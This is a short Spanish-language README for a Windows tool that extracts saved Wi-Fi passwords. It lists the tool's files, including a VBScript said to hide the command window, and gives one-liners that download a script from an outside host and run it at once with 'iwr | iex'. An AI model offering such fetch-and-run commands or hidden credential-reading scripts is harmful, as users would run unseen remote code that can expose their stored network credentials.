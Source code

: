 # Get-WlanProfiles

Get WlanProfiles: Obtener claves wifi de windows.
<br>Archivos:
<br>Get-WlanProfiles.bat
<br>Get-WlanProfiles.psm1
<br>On-Get-WlanProfiles.ps1
<br>config.vbs - oculta ventana CMD

# Como Ejecutarlo
## Local
-Descague los archivos
-Ejecute el archivo Get-WlanProfiles.bat o en su defecto confi.vbs

## Sin descargar
### PowerShell
-Abra Powershell
-Pegue y ejecute este comando:
```
iwr -useb on-get-wlanprofiles.migzam.com | iex
```
### CMD
-Abra CMD
-Pegue y ejecute este comando:
```
iwr -useb powershell on-get-wlanprofiles.migzam.com | iex
```